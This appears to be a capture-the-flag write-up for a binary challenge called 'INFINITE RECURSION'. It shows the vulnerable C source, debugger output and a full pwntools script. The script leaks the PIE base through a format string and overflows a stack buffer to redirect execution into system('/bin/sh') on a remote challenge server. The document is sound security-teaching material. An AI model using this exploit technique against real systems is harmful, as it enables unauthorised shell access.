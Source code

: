 # INFINITE RECURSION
Look at source code:
```
void fsb()
{   
    char buf[0x10];
    printf("fsb> ");
    scanf("%15s", buf);
    printf(buf);
}
void bof()
{
    char buf[0x10];
    printf("bof> ");
    scanf("%s", buf);
}
int rand_fun()
{
    if (rand() & 1)
        fsb();
    else
        bof();
    rand_fun();
}
void main()
{
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    srand(time(0));
    printf("Try to escape haha >:)\n");
    rand_fun();
    system("/bin/sh");
}
```
There are 2 bugs here, one is buffer overflow in ``` bof ```, another is format string in fsb. Let's give it a try
```
fsb> %9$p
0x5602f99cf2d9bof>
```
The first thought is try to execute ```system("/bin/sh");``` at line 31. But we have PIE enabled here, so we have to leak and calculate ELF base.
```
gef➤  tel
0x00007fffffffdcf0│+0x0000: 0x0000006161616161 ("aaaaa"?)        ← $rsp, $rdi
0x00007fffffffdcf8│+0x0008: 0x00007ffff7e0dc29  →  <rand+0009> add rsp, 0x8
0x00007fffffffdd00│+0x0010: 0x00007fffffffdd10  →  0x00007fffffffdd20  →  0x0000000000000001     ← $rbp
0x00007fffffffdd08│+0x0018: 0x00005555555552d9  →  <rand_fun+0023> jmp 0x5555555552e5 <rand_fun+47>
```
We'll the return address of ``` fsb ``` function. Let's find it's offset:
```
gef➤  p/x 0x00005555555552d9-0x0000555555554000
$1 = 0x12d9
```
Then, calculate the address of the chunk of code that relevants to line 31. It is after the ``` rand_fun ``` in ``` main ```
![image](https://github.com/user-attachments/assets/90e83205-3ada-49d6-9fb8-f37f5cd0ee52)
```
gef➤  p/x 0x0000555555555366-0x0000555555554000
$2 = 0x1366
```

Go to ``` bof ```. We'll overwrite the return address with the address of that chunk of code.
```
gef➤  tel
0x00007fffffffdcf0│+0x0000: 0x0000616161616161 ("aaaaaa"?)       ← $rsp
0x00007fffffffdcf8│+0x0008: 0x00007ffff7e0dc29  →  <rand+0009> add rsp, 0x8
0x00007fffffffdd00│+0x0010: 0x00007fffffffdd10  →  0x00007fffffffdd20  →  0x0000000000000001     ← $rbp
0x00007fffffffdd08│+0x0018: 0x00005555555552e5  →  <rand_fun+002f> mov eax, 0x0
```
Finally, we should not try to identify the flow of ```rand_fun``` to jump into ```bof``` or ```fsb```, just run the script assuming that it will jump into ```fsb``` first and then ```bof``` until we success.
Here is script: 
```
#!/usr/bin/python3

from pwn import *

r = remote('23.146.248.230', 12355)
# r = process('./chal')

# gdb.attach(r, gdbscript='''
# b *bof+59
# c
# ''')

# format string to leak exe
r.sendlineafter(b'fsb> ', f'%9$p'.encode())
exe_leak = int(r.recvuntil(b'>', drop=True)[:-3],16)
print('[*]', exe_leak)
code_base = exe_leak-0x12d9
print('[*] code_base: ', code_base)
target_addr = code_base + 0x1366

payload = b'a'*24 + p64(target_addr)
r.sendline(payload)

r.interactive()
```
![image](https://github.com/user-attachments/assets/ed632e64-7445-4f4f-ad1e-df0abff9e119)




